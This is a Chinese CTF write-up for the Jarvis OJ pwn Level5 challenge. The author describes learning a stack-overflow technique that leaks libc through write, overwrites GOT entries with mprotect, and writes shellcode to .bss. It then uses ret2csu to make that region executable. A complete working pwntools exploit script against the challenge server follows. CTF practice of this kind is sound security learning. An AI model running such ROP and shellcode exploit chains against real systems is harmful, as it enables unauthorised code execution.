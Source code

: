 

# 7.17

# Javis OJ pwn Level5 WP(菜鸡塘坑记)

> 总体来说还是我太菜了，原本按照师傅们的进度都应该在学堆了，而我这个垃圾却狗在栈上面无法自拔，我得加快进度啊。

题目地址:[传送门](https://www.jarvisoj.com/challenges)

本题是一道真的基础的栈溢出，连```libc```都给了，所以说都没啥问题，这里面给的提示是:

>mmap和mprotect练习，假设system和execve函数被禁用，请尝试使用mmap和mprotect完成本题。

之后这是朱师傅这两天在搞的题，我就凑凑热闹，毕竟太菜得向朱师傅学习，之后开始试着做，文件是64位的，IDA看一波是这个样子的。

![](https://github.com/Edgaraaa/summer_hoilday2019/blob/master/7.17/img/3.png?raw=true)

![](https://github.com/Edgaraaa/summer_hoilday2019/blob/master/7.17/img/1.png?raw=true)

![](https://github.com/Edgaraaa/summer_hoilday2019/blob/master/7.17/img/2.png?raw=true)

之后根据我那微薄的知识告诉我，知识盲区我不会，之后根据朱师傅给的提示，与```mprotect```这个函数有关系，查过```.bss```段可读可写但是不可执行，百度查了一下```mprotect```这个函数是啥用的:

```c
NAME         
       mprotect, pkey_mprotect - set protection on a region of memory
SYNOPSIS         
       #include <sys/mman.h>

       int mprotect(void *addr, size_t len, int prot);
       int pkey_mprotect(void *addr, size_t len, int prot, int pkey);
……
```

大概知道了```mprotect```是设置内存页权限的一个函数，然后底下看了看几个参数我愣是不知道可执行的```int```是多少，还是问了朱师傅才知道，我好菜啊。

之后接着得考虑用啥```gadget```来执行栈溢出，pattern查了一波偏移量是*128+8*，之后分析到我们应该得做哪几件事情呢？

1. 通过```write```函数泄露```read_got```地址，然后计算出```libc```的基地址，然后通过```libc```计算出```mprotect```的地址
2. 向```got表```中写入```mprotect```的地址
3. 向*.bss*段写入```shellcode```
4. 向```got表```中写入```bss```的地址
5. 用```ret2csu```调用```mprotect```将*.bss*权限设置为可执行，然后返回到bss上执行shellcode

之后其实在大佬师傅们手里，这题目很简单，可是我菜啊，下面主要讲讲我的塘坑记录。

### plt和got的关系没有搞清楚

这是我今天上午还搞错的问题，这个函数调用的关系其实现在我还是有点糊涂，就是啥时候应该用plt啥时候该用got地址，这个我还是太菜了

### 能别图省事而找麻烦

有很大一部分时间我是用在想用ret2csu不是等效的嘛，为啥不可以，等我用另外的gadget解决完问题之后再想也不急啊，要是比赛的时候会浪费更多时间，原本想一直用csu撸完整个的，但是发现根本不需要，用其他短的gadget反而更好实现。

### got表覆写的位置好像有讲究

今早问曹师傅，曹师傅并不建议我写在为0的常量上面，他推荐我写在其他已经有的函数上面，之后上午还不算太理解，然后晚上多看了几篇wp才明白他的意思，我选择写在```__libc_start_main```上面，然后就好了。

### 然后不能理解为啥要用pause

之后好像是为了维持线程，这个真的是涨知识了。

最后上exp:

```python
#!/usr/bin/python
from pwn import *
context.log_level='debug'
context(os='linux',arch='amd64')
#sh=process('./1')
sh=remote("pwn2.jarvisoj.com",9884)
exe=ELF('./1')
#libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')
libc=ELF('./libc-2.19.so')
main=exe.symbols['main']
csu_front_addr = 0x400690
csu_end_addr=0x4006aa
read_plt=exe.symbols['read']
read_got=exe.got['read']
bss=exe.bss()
write_plt=exe.symbols['write']
write_got=exe.got['write']
pop_rdi=0x4006b3
pop_rsi=0x4006b1
shellcode=asm(shellcraft.amd64.sh())
def csu(rbx,rbp,r12,r13,r14,r15,last):
	payload = 'a'*136
	payload+=p64(csu_end_addr)+p64(rbx)+p64(rbp)+p64(r12)+p64(r13)+p64(r14)+p64(r15)
	payload+=p64(csu_front_addr)
	payload+='a'*0x38
	payload+=p64(last)
	print 'payload+++++'+payload
	sh.send(payload)
	sleep(1)
	pause()

sh.recvuntil('Input:\n')
payload123='a'*136+p64(pop_rdi)+p64(1)+p64(pop_rsi)+p64(read_got)+'deadbuff'+p64(write_plt)+p64(main)
sh.send(payload123)
sleep(0.2)
pause()
read_addr=u64(sh.recv(8))
libc.address=read_addr-libc.symbols['read']
mprotect=libc.symbols['mprotect']
libc_start_main_got=exe.got['__libc_start_main']
payload2='a'*136+p64(pop_rdi)+p64(0)+p64(pop_rsi)+p64(libc_start_main_got)+"deadbuff"+p64(read_plt)+p64(main)
sh.send(payload2)
sleep(0.2)
sh.send(p64(mprotect))
sleep(0.2)
pause()
#mprotect=libc.symbols['mprotect']
payloadpp='a'*136+p64(pop_rdi)+p64(0)+p64(pop_rsi)+p64(bss)+'deadbuff'+p64(read_plt)+p64(main)
sh.send(payloadpp)
sleep(0.2)
sh.send(shellcode)
sleep(0.2)
pause()
#libc_start_main_got=exe.got['__libc_start_main']
#payload2='a'*136+p64(pop_rdi)+p64(0)+p64(pop_rsi)+p64(libc_start_main_got)+"deadbuff"+p64(read_plt)+p64(main)
#sh.send(payload2)
#sleep(0.2)
#sh.send(p64(mprotect))
sh.recvuntil('Input:\n')
gmon_start_got=exe.got['__gmon_start__']
payload3='a'*136+p64(pop_rdi)+p64(0)+p64(pop_rsi)+p64(gmon_start_got)+"deadbuff"+p64(read_plt)+p64(main)
sh.send(payload3)
sleep(0.2)
sh.send(p64(bss))
sleep(0.2)
#csu2(0,1,mprotect_got,7,0x1000,0x600000,bss_got)
payloadkkp='a'*136+p64(csu_end_addr)+p64(0)+p64(1)+p64(libc_start_main_got)+p64(7)+p64(0x1000)+p64(0x600000)
payloadkkp+=p64(csu_front_addr)
payloadkkp+='deadbuff'+p64(0)+p64(1)+p64(gmon_start_got)+p64(0)+p64(0)+p64(0)
payloadkkp+=p64(csu_front_addr)
sleep(0.2)
pause()
sh.send(payloadkkp)
sh.interactive()
```

![](https://github.com/Edgaraaa/summer_hoilday2019/blob/master/7.17/img/4.png?raw=true)

总共用了一天多才搞定，我好菜啊！！！